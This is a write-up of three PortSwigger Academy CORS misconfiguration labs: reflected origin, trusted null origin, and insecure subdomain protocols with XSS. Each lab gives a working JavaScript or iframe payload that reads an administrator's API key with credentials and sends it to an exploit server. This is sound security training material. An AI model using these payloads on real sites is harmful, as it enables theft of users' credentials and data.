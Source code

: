 # Portswigger Writeups

## Lab 1: Basic Origin Reflection

To solve this lab, craft some Javascript that uses CORS to retrieve the administrator's API key. I am given the exploit server for this lab.

Essentially, CORS enables servers to define who can access their assets. This is configured using the `Access-Control-Allow-Origin` or `Access-Control-Allow-Credentials` headers.

When reviewing the requests, there was a GET request sent to `/accountDetails`. 

![](../../.gitbook/assets/portswigger-cors-writeup-image.png)

This request had the `Access-Control-Allow-Credentials` header set to `true`.

![](../../.gitbook/assets/portswigger-cors-writeup-image-1.png)

This header specifies whether the server allows cross-origin HTTP requests to include credentials. This means other domains can read responses if given credentials.

{% embed url="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Credentials" %}

This can be abused by making the victim visit the `administrator` account, then sending the entire page to the exploit server.

Here's the payload I used:

```js
<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0ae2006f03d768f783065546006d00a6.web-security-academy.net/accountDetails',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='/steal?key='+this.responseText; 
};
</script>
```

What this script does is make the victim visit the `/accountDetails` directory with the CORS misconfiguration. I can retrieve pages that normally require credentials, which is then sent to the exploit server.

Sending this to the victim produces this:

![](../../.gitbook/assets/portswigger-cors-writeup-image-2.png)

Submitting the API key there solves the lab. 

## Lab 2: Trusted Null Origin

To solve this lab, submit the API key of the `administrator` user.

Similar to Lab 1, there's a GET request sent to `/accountDetails`.

![](../../.gitbook/assets/portswigger-cors-writeup-image-3.png)

I can attempt to send a `Origin: null` header to test whether that is allowed, and it was:

![](../../.gitbook/assets/portswigger-cors-writeup-image-4.png)

Having a trusted `null` origin means this:

![](../../.gitbook/assets/portswigger-cors-writeup-image-5.png)

Basically, it means that if `null` is allowed, only a specific number of resources are allowed to access this. The above states that `iframe` with the `sandbox` attribute is allowed.

So in this case, creating an `iframe sandbox` via payloads on Hacktricks suffices.

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://0a04003103ad2230827d152e002000b4.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://exploit-0a8d00290350221782a0141e018b0049.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

The above payload specifies an `iframe sandbox`, which then loads a doucment created programmatically via the `data:` URL.

Sending this to the victim retrieves the API key, viewable from the Access Log.

## Lab 3: Trusted Insecure Protocols

To solve this lab, submit the API key of the `administrator` user. This lab trusts all subdomains **regardless of protocol used**.

When checking the `/accountDetails` directory, I entered fake websites within the `Origin` header with both HTTP and HTTPS protocols, and found that it was always allowed.

![](../../.gitbook/assets/portswigger-cors-writeup-image-6.png)

This means that accessing the website via HTTP is allowed, and that requests sent may be unencrypted. The hint is that MITM can be used, but in this case, I have to find an alternative way of injecting JS to the subdomain.

The lab had more functionality, including a 'Check Stock' function which opens a new window:

![](../../.gitbook/assets/portswigger-cors-writeup-image-7.png)

Notice that this new window uses HTTP and not HTTPS. Also, it is part of the `stock` subdomain.

So I have to inject Javascript into this subdomain. I tried using `<script` tags within the URL, and worked:

![](../../.gitbook/assets/portswigger-cors-writeup-image-8.png)

Here's the URL I used:

```
http://stock.0a85001804e81d34857fc64900c40035.web-security-academy.net/?productId=2<script>alert(1)</script>&storeId=2
```

So Javascript can be injected within the parameters. To exploit this and solve this lab, I can do the following:
1. Redirect the user to a maliciously crafted `stock` subdomain URL.
2. Include some Javascript that would **do the fetching of API key for me**. This is allowed because the `/accountDetails` directory has been set up to allow for any subdomain to 'fetch' it.
3. This URL will have the same payload as per the 1st lab. 

The encoding for the payload was rather weird, so I ended up going with Portswigger's. 

```html
<script>
    document.location="http://stock.0a85001804e81d34857fc64900c40035.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a85001804e81d34857fc64900c40035.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a5800fa04ab1d978584c53201bf0048.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

The `+` and `<` characters need to be URL encoded. Not too sure why but it allows the payload to work.